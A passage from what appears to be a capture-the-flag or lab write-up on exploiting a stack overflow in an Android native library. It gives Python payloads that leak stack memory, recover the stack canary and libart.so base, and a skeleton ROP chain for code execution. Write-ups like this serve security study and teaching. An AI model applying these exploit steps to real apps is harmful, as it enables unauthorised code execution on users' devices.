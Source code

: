 So if `length <= 0x100`, then it will be added to `bufferLength`. Technically, setting `length < 0` or `length < -perfect_strlen(buffer)` is possible, but does not seem very useful at first glance. Then, `bufferLength` bytes are copied from `buffer` into `array`. As `strlen(buffer) + length > 0x20 = sizeof (buffer)` is possible, this might leak arbitrary values from the stack coming after the buffer.

Summing up, if we sent a payload of the form
```python
client.forward(b'\x42' * 0x20)
client.forward(b'\x00\x00\x01\x00') # big - endian
leak = client.fetch()
```
we would get an additional `0x100` bytes from the memory located above `buffer`, i.e. from the stack. This leaks, among other things
1. Return address to `art_quick_generic_jni_trampoline`, which leaks the base of `libart.so` (almost as awesome as `libc.so`...as regards gadgets)
2. Old `rbp`, i.e. a stack pointer

## Exploitation >:)

Lets assume we already have a leaked `libart.so` pointer, i.e. we ran:
```python
client.forward(b'\x42' * 0x20)
client.forward(b'\x00\x00\x01\x00')
leak = client.fetch()

leak = decompose(leak[0x20:])

canary = leak[1]

# libart.so address of art_quick_generic_jni_trampoline+220,
# i.e. at file offset 0x39ffac (may differ)
libart_base = p64(u64(leak[3]) - 0x39ffac)

def decompose(leak : bytes):
    return [ leak[i * 8:(i+1) * 8] for i in range(len(leak) // 8) ]
```
To figure out that the second qword is the canary, just iterate over the decomposed leak and look for *not - address - looking* values. I always encountered fully random canaries, i.e. 8 random bytes, which seem to be the [default on Android](https://link.springer.com/article/10.1007/s10207-018-00425-8). But this will only be relevant in case e.g. `strcpy` is used instead of e.g. `memcpy`.

Using your favourite tool for gadget extraction, like [*ropper*](https://github.com/sashs/Ropper) or [*ROPgadget*](https://github.com/JonathanSalwan/ROPgadget), you can construct a ROP - chain to get arbitrary code execution. Basically, your payload could look like this:
```python
payload = b'\x42' * 0x20
payload += leak[0] # <-- unknown address
payload += canary
payload += leak[2] # <-- probably old rbp
payload += gadget_1
payload += gadget_2
payload += enjoy
...
```
because the leaked data from the stack looked like this (from low to high addresses):
```
lower   0x72d1b9cdc210      <-- unknown address
  |     0x79291c4ee3e94be3  <-- that is the canary
  |     0x72d08b1c28b0      <-- probably old rbp
higher  0x72d0f87a032c      <-- this is your most favourite address to leak
```
Notice that we do not need to care about the *unknown* address, because we are almost done.
